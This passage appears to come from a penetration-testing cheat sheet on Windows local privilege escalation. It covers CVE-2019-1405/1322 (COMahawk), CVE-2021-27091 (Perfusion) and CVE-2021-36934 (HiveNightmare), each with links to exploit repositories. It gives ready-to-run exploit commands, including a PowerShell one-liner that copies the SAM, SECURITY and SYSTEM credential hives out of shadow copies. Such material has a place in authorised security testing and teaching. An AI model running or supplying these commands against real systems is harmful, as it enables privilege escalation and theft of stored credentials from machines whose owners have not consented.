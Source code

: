 

### UPnP Device Host Service

**CVE-2019-1405, CVE-2019-1322 - Windows 10, version 1803 < 1809**

* [https://www.programmersought.com/article/35344126658/](https://www.programmersought.com/article/35344126658/)
* [https://github.com/apt69/COMahawk/releases](https://github.com/apt69/COMahawk/releases)

```
Cmd > .\COMahawk64.exe "C:\Temp\pwn.exe"
```



### RpcEptMapper

**CVE-2021-27091**

* [https://itm4n.github.io/windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)
* [https://itm4n.github.io/windows-registry-rpceptmapper-exploit/](https://itm4n.github.io/windows-registry-rpceptmapper-exploit/)
* [https://github.com/itm4n/Perfusion](https://github.com/itm4n/Perfusion)

Potentionally vulnerable Windows versions:

* Windows 7
* Windows Server 2008 R2
* Windows 8
* Windows Server 2012

Compile into Release and exploit:

```
Cmd > .\Perfusion.exe -c cmd -i
```



### HiveNightmare

**CVE-2021–36934**

* [https://github.com/GossiTheDog/HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)
* [https://github.com/HuskyHacks/ShadowSteal](https://github.com/HuskyHacks/ShadowSteal)
* [https://github.com/FireFart/hivenightmare/blob/main/release/hive.exe](https://github.com/FireFart/hivenightmare/blob/main/release/hive.exe)
* [https://github.com/cube0x0/CVE-2021-36934](https://github.com/cube0x0/CVE-2021-36934)

PowerShell one-liner:

```
PS > powershell -c "foreach ($i in 1..10){$p='\\.\HarddiskVolumeShadowCopy{0}\windows\system32\config\' -f $i; gi $($p+'SAM'),$($p+'SECURITY'),$($p+'SYSTEM') -ErrorAction SilentlyContinue | % {cp $_.FullName $($_.BaseName+$i)}}"
```


